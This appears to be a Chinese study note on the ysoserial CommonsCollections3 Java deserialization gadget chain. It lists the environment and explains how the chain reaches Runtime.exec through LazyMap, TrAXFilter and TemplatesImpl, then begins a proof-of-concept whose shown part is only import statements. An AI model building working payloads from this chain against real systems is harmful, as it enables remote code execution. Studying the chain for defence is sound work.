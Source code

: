## ysoserial_CommonCollections3

> 本机环境：
>
> JDK版本：jdk1.7u_51
>
> CC版本：Commons-Collections 3.2.1

简介：

CC3 官方描述为 CC1 的变种，其中能看到 CC1 和 CC2 的部分影子，但是部分技术细节并不相同。

在 CC1 中，使用了 AnnotationInvocationHandler 对 LazyMap 进行代理，在反序列化时触发 LazyMap 的 get 方法，并对 LazyMap 装饰 Transformer 触发漏洞。

在 CC2 中，使用 TemplatesImpl 的 newTransformer 方法触发实例化恶意类触发漏洞，方法的调用则是使用了 InvokerTransformer 反射调用。

而在 CC3 中，使用了 CC1 和 LazyMap 和 CC2的 TemplatesImpl，中间寻找了其他的触发 newTransformer 的实现方式。

利用链：

```
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                Map(Proxy).entrySet()
                    AnnotationInvocationHandler.invoke()
                        LazyMap.get()
                            ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```



## POC&复现

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;
```
